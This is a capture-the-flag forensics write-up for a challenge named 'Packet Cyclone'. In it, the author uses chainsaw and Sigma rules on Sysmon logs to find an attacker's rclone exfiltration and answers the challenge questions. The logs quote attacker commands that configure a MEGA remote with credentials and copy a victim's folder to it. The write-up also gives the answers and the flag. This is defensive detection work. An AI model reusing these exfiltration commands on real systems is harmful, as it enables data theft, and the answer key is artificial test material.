

# WRITE_UP #

## PACKET CYCLONE ##

### 1. Analysis ###
* **Given:** a folder named `Logs` and a folder named `sigma_rules`
* **Description:** Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### POCHITA THE CHAINSAW DEVILLLL ####

From the information provided by the description, this challenge prefer us to install a tool called `chainsaw`. For the sake of the author, you can install `chainsaw` here: [chainsaw](https://github.com/WithSecureLabs/chainsaw). Since I use `WSL`, I installed the version `chainsaw_aarch64-unknown-linux-gnu.tar.gz` for this challenge.

Basically, chainsaw is a powerful `Windows Event Logs` reading tool. It hunts for malicious activity by matching log entries against a set of detection rules known as `Sigma` rules. Normally, you would like to install sigma rules set from [Sigma Rules](https://github.com/SigmaHQ/sigma). Since the challenge give us both `sigma_rules` and `Logs`, we do not need more rules to solve the challenge.

The linux command to use `chainsaw` should look like this:

```bash
<your_path_to_chainsaw/chainsaw> hunt <your_path_to_log_folder> -s <your_path_to_sigma_rules_folder> --mapping <your_path_to_chainsaw/mappings/sigma-event-logs-all.yml>
```



```bash
┌─────────────────────┬────────────────────────────┬───────┬───────────────────────┬──────────┬───────────┬─────────────────┬──────────────────────┐
│      timestamp      │         detections         │ count │ Event.System.Provider │ Event ID │ Record ID │    Computer     │      Event Data      │
├─────────────────────┼────────────────────────────┼───────┼───────────────────────┼──────────┼───────────┼─────────────────┼──────────────────────┤
│ 2023-02-24 15:35:07 │ ‣ Rclone Execution via     │ 1     │ Microsoft-Windows-Sy  │ 1        │ 76        │ DESKTOP-UTDHED2 │ Image: C:\Users\wade │
│                     │ Command Line or PowerShell │       │ smon                  │          │           │                 │ \AppData\Local\Temp\ │
│                     │                            │       │                       │          │           │                 │ rclone-v1.61.1-windo │
│                     │                            │       │                       │          │           │                 │ ws-amd64\rclone.exe  │
│                     │                            │       │                       │          │           │                 │ RuleName: '-'        │
│                     │                            │       │                       │          │           │                 │ Description: Rsync f │
│                     │                            │       │                       │          │           │                 │ or cloud storage     │
│                     │                            │       │                       │          │           │                 │ OriginalFileName: rc │
│                     │                            │       │                       │          │           │                 │ lone.exe             │
│                     │                            │       │                       │          │           │                 │ TerminalSessionId: 1 │
│                     │                            │       │                       │          │           │                 │ ParentCommandLine: ' │
│                     │                            │       │                       │          │           │                 │ "C:\Windows\System32 │
│                     │                            │       │                       │          │           │                 │ \WindowsPowerShell\v │
│                     │                            │       │                       │          │           │                 │ 1.0\powershell.exe"  │
│                     │                            │       │                       │          │           │                 │ '                    │
│                     │                            │       │                       │          │           │                 │ Product: Rclone      │
│                     │                            │       │                       │          │           │                 │ Company: https://rcl │
│                     │                            │       │                       │          │           │                 │ one.org              │
│                     │                            │       │                       │          │           │                 │ ParentProcessId: 588 │
│                     │                            │       │                       │          │           │                 │ 8                    │
│                     │                            │       │                       │          │           │                 │ ParentUser: DESKTOP- │
│                     │                            │       │                       │          │           │                 │ UTDHED2\wade         │
│                     │                            │       │                       │          │           │                 │ LogonGuid: 10DA3E43- │
│                     │                            │       │                       │          │           │                 │ D892-63F8-4B6D-03000 │
│                     │                            │       │                       │          │           │                 │ 0000000              │
│                     │                            │       │                       │          │           │                 │ Hashes: SHA256=E9490 │
│                     │                            │       │                       │          │           │                 │ 1809FF7CC5168C1E857D │
│                     │                            │       │                       │          │           │                 │ 4AC9CBB339CA1F6E21DC │
│                     │                            │       │                       │          │           │                 │ CE95DFB8E28DF799961  │
│                     │                            │       │                       │          │           │                 │ ParentProcessGuid: 1 │
│                     │                            │       │                       │          │           │                 │ 0DA3E43-D8D2-63F8-9B │
│                     │                            │       │                       │          │           │                 │ 00-000000000900      │
│                     │                            │       │                       │          │           │                 │ ProcessId: 3820      │
│                     │                            │       │                       │          │           │                 │ CurrentDirectory: C: │
│                     │                            │       │                       │          │           │                 │ \Users\wade\AppData\ │
│                     │                            │       │                       │          │           │                 │ Local\Temp\rclone-v1 │
│                     │                            │       │                       │          │           │                 │ .61.1-windows-amd64\ │
│                     │                            │       │                       │          │           │                 │ ProcessGuid: 10DA3E4 │
│                     │                            │       │                       │          │           │                 │ 3-D92B-63F8-B100-000 │
│                     │                            │       │                       │          │           │                 │ 000000900            │
│                     │                            │       │                       │          │           │                 │ CommandLine: '"C:\Us │
│                     │                            │       │                       │          │           │                 │ ers\wade\AppData\Loc │
│                     │                            │       │                       │          │           │                 │ al\Temp\rclone-v1.61 │
│                     │                            │       │                       │          │           │                 │ .1-windows-amd64\rcl │
│                     │                            │       │                       │          │           │                 │ one.exe" config crea │
│                     │                            │       │                       │          │           │                 │ te remote mega user  │
│                     │                            │       │                       │          │           │                 │ majmeret@protonmail. │
│                     │                            │       │                       │          │           │                 │ com pass FBMeavdiaFZ │
│                     │                            │       │                       │          │           │                 │ bWzpMqIVhJCGXZ5XXZI1 │
│                     │                            │       │                       │          │           │                 │ qsU3EjhoKQw0rEoQqHyI │
│                     │                            │       │                       │          │           │                 │ '                    │
│                     │                            │       │                       │          │           │                 │ FileVersion: 1.61.1  │
│                     │                            │       │                       │          │           │                 │ User: DESKTOP-UTDHED │
│                     │                            │       │                       │          │           │                 │ 2\wade               │
│                     │                            │       │                       │          │           │                 │ LogonId: '0x36d4b'   │
│                     │                            │       │                       │          │           │                 │ IntegrityLevel: Medi │
│                     │                            │       │                       │          │           │                 │ um                   │
│                     │                            │       │                       │          │           │                 │ ParentImage: C:\Wind │
│                     │                            │       │                       │          │           │                 │ ows\System32\Windows │
│                     │                            │       │                       │          │           │                 │ PowerShell\v1.0\powe │
│                     │                            │       │                       │          │           │                 │ rshell.exe           │
│                     │                            │       │                       │          │           │                 │ UtcTime: 2023-02-24  │
│                     │                            │       │                       │          │           │                 │ 15:35:07.336         │
├─────────────────────┼────────────────────────────┼───────┼───────────────────────┼──────────┼───────────┼─────────────────┼──────────────────────┤
│ 2023-02-24 15:35:17 │ ‣ Rclone Execution via     │ 1     │ Microsoft-Windows-Sy  │ 1        │ 78        │ DESKTOP-UTDHED2 │ Image: C:\Users\wade │
│                     │ Command Line or PowerShell │       │ smon                  │          │           │                 │ \AppData\Local\Temp\ │
│                     │                            │       │                       │          │           │                 │ rclone-v1.61.1-windo │
│                     │                            │       │                       │          │           │                 │ ws-amd64\rclone.exe  │
│                     │                            │       │                       │          │           │                 │ RuleName: '-'        │
│                     │                            │       │                       │          │           │                 │ Description: Rsync f │
│                     │                            │       │                       │          │           │                 │ or cloud storage     │
│                     │                            │       │                       │          │           │                 │ OriginalFileName: rc │
│                     │                            │       │                       │          │           │                 │ lone.exe             │
│                     │                            │       │                       │          │           │                 │ TerminalSessionId: 1 │
│                     │                            │       │                       │          │           │                 │ ParentCommandLine: ' │
│                     │                            │       │                       │          │           │                 │ "C:\Windows\System32 │
│                     │                            │       │                       │          │           │                 │ \WindowsPowerShell\v │
│                     │                            │       │                       │          │           │                 │ 1.0\powershell.exe"  │
│                     │                            │       │                       │          │           │                 │ '                    │
│                     │                            │       │                       │          │           │                 │ Product: Rclone      │
│                     │                            │       │                       │          │           │                 │ Company: https://rcl │
│                     │                            │       │                       │          │           │                 │ one.org              │
│                     │                            │       │                       │          │           │                 │ ParentProcessId: 588 │
│                     │                            │       │                       │          │           │                 │ 8                    │
│                     │                            │       │                       │          │           │                 │ ParentUser: DESKTOP- │
│                     │                            │       │                       │          │           │                 │ UTDHED2\wade         │
│                     │                            │       │                       │          │           │                 │ LogonGuid: 10DA3E43- │
│                     │                            │       │                       │          │           │                 │ D892-63F8-4B6D-03000 │
│                     │                            │       │                       │          │           │                 │ 0000000              │
│                     │                            │       │                       │          │           │                 │ Hashes: SHA256=E9490 │
│                     │                            │       │                       │          │           │                 │ 1809FF7CC5168C1E857D │
│                     │                            │       │                       │          │           │                 │ 4AC9CBB339CA1F6E21DC │
│                     │                            │       │                       │          │           │                 │ CE95DFB8E28DF799961  │
│                     │                            │       │                       │          │           │                 │ ParentProcessGuid: 1 │
│                     │                            │       │                       │          │           │                 │ 0DA3E43-D8D2-63F8-9B │
│                     │                            │       │                       │          │           │                 │ 00-000000000900      │
│                     │                            │       │                       │          │           │                 │ ProcessId: 5116      │
│                     │                            │       │                       │          │           │                 │ CurrentDirectory: C: │
│                     │                            │       │                       │          │           │                 │ \Users\wade\AppData\ │
│                     │                            │       │                       │          │           │                 │ Local\Temp\rclone-v1 │
│                     │                            │       │                       │          │           │                 │ .61.1-windows-amd64\ │
│                     │                            │       │                       │          │           │                 │ ProcessGuid: 10DA3E4 │
│                     │                            │       │                       │          │           │                 │ 3-D935-63F8-B200-000 │
│                     │                            │       │                       │          │           │                 │ 000000900            │
│                     │                            │       │                       │          │           │                 │ CommandLine: '"C:\Us │
│                     │                            │       │                       │          │           │                 │ ers\wade\AppData\Loc │
│                     │                            │       │                       │          │           │                 │ al\Temp\rclone-v1.61 │
│                     │                            │       │                       │          │           │                 │ .1-windows-amd64\rcl │
│                     │                            │       │                       │          │           │                 │ one.exe" copy C:\Use │
│                     │                            │       │                       │          │           │                 │ rs\Wade\Desktop\Reli │
│                     │                            │       │                       │          │           │                 │ c_location\ remote:e │
│                     │                            │       │                       │          │           │                 │ xfiltration -v'      │
│                     │                            │       │                       │          │           │                 │ FileVersion: 1.61.1  │
│                     │                            │       │                       │          │           │                 │ User: DESKTOP-UTDHED │
│                     │                            │       │                       │          │           │                 │ 2\wade               │
│                     │                            │       │                       │          │           │                 │ LogonId: '0x36d4b'   │
│                     │                            │       │                       │          │           │                 │ IntegrityLevel: Medi │
│                     │                            │       │                       │          │           │                 │ um                   │
│                     │                            │       │                       │          │           │                 │ ParentImage: C:\Wind │
│                     │                            │       │                       │          │           │                 │ ows\System32\Windows │
│                     │                            │       │                       │          │           │                 │ PowerShell\v1.0\powe │
│                     │                            │       │                       │          │           │                 │ rshell.exe           │
│                     │                            │       │                       │          │           │                 │ UtcTime: 2023-02-24  │
│                     │                            │       │                       │          │           │                 │ 15:35:17.516         │
└─────────────────────┴────────────────────────────┴───────┴───────────────────────┴──────────┴───────────┴─────────────────┴──────────────────────┘

[+] 2 Detections found on 2 documents
```
* **The first question:** `What is the email of the attacker used for the exfiltration process? (for example: name@email.com)`
    * In the first detection, we can see the command line: 
```bash
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI
```

* So the answer is: `majmeret@protonmail.com`

* **The second question:** `What is the password of the attacker used for the exfiltration process? (for example: password123)`
    * We have identified the password in the previous question 

* So the answer is: `FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI`

* **The third question:** `What is the Cloud storage provider used by the attacker? (for example: cloud)`
    * The structure of the `rclone config create` command is:
    ```bash
    rclone config create <name> <type> ...
    ``` 
    * In the detected command line, we can see the configuration is named `remote`, and the storage provider is `mega`. Besides `mega`, rclone support more than 40 types of clouds such as `drive`, `dropbox`, ... you can read more about `rclone` here: [rclone](https://rclone.org/)
* So the answer is: `mega`

* **The fourth question:** `What is the ID of the process used by the attackers to configure their tool? (for example: 1337)` 
    * Looking back at our first detection, the configuration command, we can extract the `PID` from the log details:
    ```bash
    ProcessId: 3820
    ``` 
* So the answer is: `3820`

* **The fifth question:** `What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)`
    * Since the first command is a configuration, to answer this, we need to analyze the second detection, which is actually the data exfiltration command. Let's take a look at it:
    ```bash
    "C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
    ``` 
    * The structure of the command is:
    ```bash
    rclone copy <file_copied> <config_name:file_to_copy>
    ``` 
* So the answer is: `C:\Users\Wade\Desktop\Relic_location`

* **The sixth question:** `What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)`

    * We identified the answer in the previous question.
 
* So the answer is: `exfiltration`
  
```bash
kittne@DESKTOP-C0H1UVN:/mnt/d/sv_it/htb/Easy/Easy/Packet Cyclone$ nc 154.57.164.69 30561

+----------------+-------------------------------------------------------------------------------+
|     Title      |                                  Description                                  |
+----------------+-------------------------------------------------------------------------------+
| Packet Cyclone |           Pandora's friend and partner, Wade, is the one that leads           |
|                |                  the investigation into the relic's location.                 |
|                |         Recently, he noticed some weird traffic coming from his host.         |
|                |             That led him to believe that his host was compromised.            |
|                | After a quick investigation, his fear was confirmed. Pandora tries now to see |
|                |  if the attacker caused the suspicious traffic during the exfiltration phase. |
|                |             Pandora believes that the malicious actor used rclone             |
|                |                  to exfiltrate Wade's research to the cloud.                  |
|                |     Using the tool chainsaw and many sigma rules that can be found online,    |
|                |   can you detect the usage of rclone from the event logs produced by Sysmon?  |
|                |                 To get the flag, you need to start and connect                |
|                |         to the docker service and answer all the questions correctly.         |
+----------------+-------------------------------------------------------------------------------+

What is the email of the attacker used for the exfiltration process? (for example: name@email.com)
> majmeret@protonmail.com
[+] Correct!

What is the password of the attacker used for the exfiltration process? (for example: password123)
> FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI
[+] Correct!

What is the Cloud storage provider used by the attacker? (for example: cloud)
> mega
[+] Correct!

What is the ID of the process used by the attackers to configure their tool? (for example: 1337)
> 3820
[+] Correct!

What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)
> C:\Users\Wade\Desktop\Relic_location
[+] Correct!

What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)
> exfiltration
[+] Correct!

[+] Here is the flag: HTB{Rcl0n3_1s_n0t_s0_inn0c3nt_4ft3r_4ll}
```

## 3. Solution ##
1. **Result:** The flag is `HTB{Rcl0n3_1s_n0t_s0_inn0c3nt_4ft3r_4ll}`


